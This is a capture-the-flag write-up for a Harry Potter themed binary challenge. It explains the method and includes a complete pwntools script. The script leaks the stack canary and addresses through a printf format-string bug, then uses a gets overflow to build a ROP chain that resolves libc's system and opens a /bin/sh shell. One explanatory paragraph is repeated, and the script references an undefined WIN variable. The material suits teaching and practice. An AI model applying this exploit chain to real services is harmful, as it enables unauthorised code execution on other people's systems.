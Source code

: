 # First thoughts:
The program again expects 3 user inputs. The first is just the flag from the previous challenge. After looking at the provided source code I saw that the flag checking is done safe, so no exploitation possible here. The rest of the inputs are provided via a `gets` and all the text is printed via `printf`. So again a possible BufferOverflow because gets doesn't check the buffer size provided and writes however long the input is to the stack.  And because of the `printf ` it is feasible to use a StringFormatExploit.
The last step is to get a shell, Unfortunately the function `WINgardium_leviosa` is doesn't provide a shell call anymore. The Idea is to overwrite the GOT address to a function from the libc library with the address to the system function and providing it with the parameter `/bin/sh`.
With the program checksec I noticed that there are now stack canaries provided so I have to bypass them first before overwriting the return address.

# The Exploit:
First I created a small python script with pwntools. The script waits for the string `Enter the password from stage 2:` and sends the flag. 
## Bypass the canary value
I have to find out which padding I need to add to `Expelliarmus\x00` until the canary value. I create a payload for the third input with `Expelliarmus\x00` concatenated  with `cyclic(0xff)`. The `cylic` function creates a sequence of chars generated by pwntools. This sequence is special as every part can be recognized by only 4 chars. I attach gdb to the program and wait until an error is thrown because of the canary value. There gdb tells me what value was checked, it turns out to be `cnaa`. So now I know if I replace `cyclic(0xff)` by `"A"*cyclic_find("cnaa")` then the next thing overwrites the canary value. 
Now comes the tricky part I need to get the canary value. Luckily I can leak the stack by changing the payload for the second input. I can send `%lx` 38 times with `|` in between. Now `%lx` is printed. The x is for printing values from the stack and the l says that it should print 64 bit values instead of 32 bit. 
Now the script can be executed again and I can look for the real canary value in gdb and search it in the output of the script. It is printed as the 38th value.
## Overwriting the GOT
I decided to overwrite the GOT to the `puts` command. To do this I first needed to leak some address from the stack. For this I added 20 `%p` with a `|` in between to the second input. Now I attach gdb to the program and with the command `vmmap` I see at which address my program starts and ends. If I now compare this with the output I got from my input. I notice that the 40th value is inside my programs address space (e.g. 0x55f3d804ad7e).  Now I could disassmble the running program and find the GOT puts function at e.g. address 0x55f3d824bf88 which makes the offset (0x55f3d804ad7e-0x55f3d824bf88=-20120a).
The GOT address is just the first step. I now want to leak the libc address of `puts` to do this I need to get the value behind the GOT address. To do this I am going to `printf` with the GOT address inside the rdi register. So I need a rop gadget which pops rdi and returns. To get one I used the program ROPgadget wich told me that on address 0xdf3 I can find it. This is a generic address and I need the offset to my reference (e.g, 0x55f3d804ad7e-0x55f3d804adf3=-0x75). Also I need a `printf` gadget, I just used the one from the welcome function e.g. 0x55f3d804ac9c (0x55f3d804ad7e-0x55f3d804ac9c =0xe2).
Now I could create a first payload but again because of the risk of an unaligned stack I need to get it aligned by a simple return gadget e.g. 0x55f3d804ab7e (0x55f3d804ad7e-0x55f3d804ab7e =0x200).
To craft the payload I have to find out which padding I need to add to `Expelliarmus\x00` until the canary value. I create a payload for the third input with `Expelliarmus\x00` concatenated  with `cyclic(0xff)`. The `cylic` function creates a sequence of chars generated by pwntools. This sequence is special as every part can be recognized by only 4 chars. I attach gdb to the program and wait until an error is thrown because of the canary value. There gdb tells me what value was checked, it turns out to be `cnaa`. So now I know if I replace `cyclic(0xff)` by `"A"*cyclic_find("cnaa")` then the next thing overwrites the canary value. 
Because I need another input I am going to jump to the `AAAAAA` function first I have to get the address e.g 0x55f3d804acb8 (0x55f3d804ad7e-0x55f3d804acb8=0xc6). 
Because I am using the `printf` gadget which also calls `leave` I need to set the base pointer to a real value.
The first payload so the third input will then be `"Expelliarmus\x00" + PADDING + p64(CANARY) + p64(BASE) + p64(RET) + p64(POP_RDI_RET) + p64(GOT_PUTS) + p64(RET) + p64(PRINTF) + p64(CANARY) + p64(RET) + p64(AAAAAAAAA)`

Now I can wait for a second `enter your magical spell` and infront of that the leaked pus function from the libc library will be (e.g. 0x7fb57eff9490). 
Because a docker file was provided I could check the libc version and could check online where which function is located. I found out that the `puts` function is located 0x87490 bytes away from the start and the `system` function is located 0x554e0 bytes away  from the start. Now I can calculate where at which address the system function should be (0x7fb57eff9490-0x87490 +0x554e0 =0x7fb57efc74e0).
Now I have to create the second payload with the same start as the first `"Expelliarmus\x00" + PADDING + p64(CANARY) + p64(BASE) ` but now I want to put an address which points to `/bin/sh` inside rdi.
The result looks like this:

```
from pwn import *

p = process("./pwn3")
#p = remote("hax1.allesctf.net", 9102)

FORMATSTRING = "|".join(["%lx" for _ in xrange(0,38)])
FORMATSTRING2 = "|".join(["%p" for _ in xrange(0,4+16)])

SYSTEM_LIBC_OFFSET = 0x00000000000554e0
PUTS_LIBC_OFFSET = 0x0000000000087490

p.recvuntil("Enter the password of stage 2:")

p.sendline("CSCG{THIS_IS_TEST_FLAG}")
#p.sendline("CSCG{NOW_GET_VOLDEMORT}")

p.recvuntil("Enter your witch name:")

p.sendline(FORMATSTRING + "|" + FORMATSTRING2)


LEAKS = p.recvuntil("enter your magic spell:").split("|")
CANARY = int(LEAKS[-(4+16)], 16)
MAIN = int(LEAKS[-(2+16)], 16)
log.info("Leaked return value 0x{:x}".format(MAIN))
log.info("Leaked CANARY value 0x{:x}".format(CANARY))


GOT_PUTS = MAIN + 0x20120a
POP_RDI_RET = MAIN + 0x75

PRINTF = MAIN - 0xe2
BASE = int (LEAKS[-6], 16) - 0x108 + 0x40
AAAAAAAAA = MAIN - 0xc6

log.info("Leaked GOT_PUTS value 0x{:x}".format(GOT_PUTS))
log.info("Leaked POP_RDI_RET Start value 0x{:x}".format(POP_RDI_RET))
log.info("Leaked PRINTF Start value 0x{:x}".format(PRINTF))
log.info("Leaked BASE Start value 0x{:x}".format(BASE))
log.info("Leaked AAAAAAAAA Start value 0x{:x}".format(AAAAAAAAA))

RET = WIN-0x200

PADDING = "A"*cyclic_find("cnaa")
p.sendline("Expelliarmus\x00" + PADDING + p64(CANARY) + p64(BASE) + p64(RET) + p64(POP_RDI_RET) + p64(GOT_PUTS) + p64(RET) + p64(PRINTF) + p64(CANARY) + p64(RET) + p64(AAAAAAAAA))

p.recvuntil("~ Protego!")
p.recvline()

LEAKS2 = p.recvuntil("enter your magic spell:\n").replace(" enter your magic spell:\n","")
LEAKS2 += '\x00\x00'
PUTS_LIBC = u64(LEAKS2)
SYSTEM_LIBC = PUTS_LIBC - PUTS_LIBC_OFFSET + SYSTEM_LIBC_OFFSET

log.info("Leaked SYSTEM_LIBC Start value 0x{:x}".format(SYSTEM_LIBC))

raw_input("attach gdb")

p.sendline("Expelliarmus\x00" + PADDING + p64(CANARY) + p64(BASE) + p64(RET) + p64(POP_RDI_RET) + p64(BASE + 0x38) + p64(SYSTEM_LIBC) + p64(PRINTF) + "/bin/sh")#+ p64(CANARY) + p64(RET) + p64(WIN))

p.interactive()

```
Now that I got a bash just execute `cat flag` and the flag is printed out.
To get the real flag just change the attached program to the server and change the flag to the real one from Stage 2 and execute.

# Prevention:
The problem is that the user input is not sanitized.
If the input got sanitized and a safe alternative for `gets` would be used like `fgets` then it wouldn't be possible to overwrite the return value.
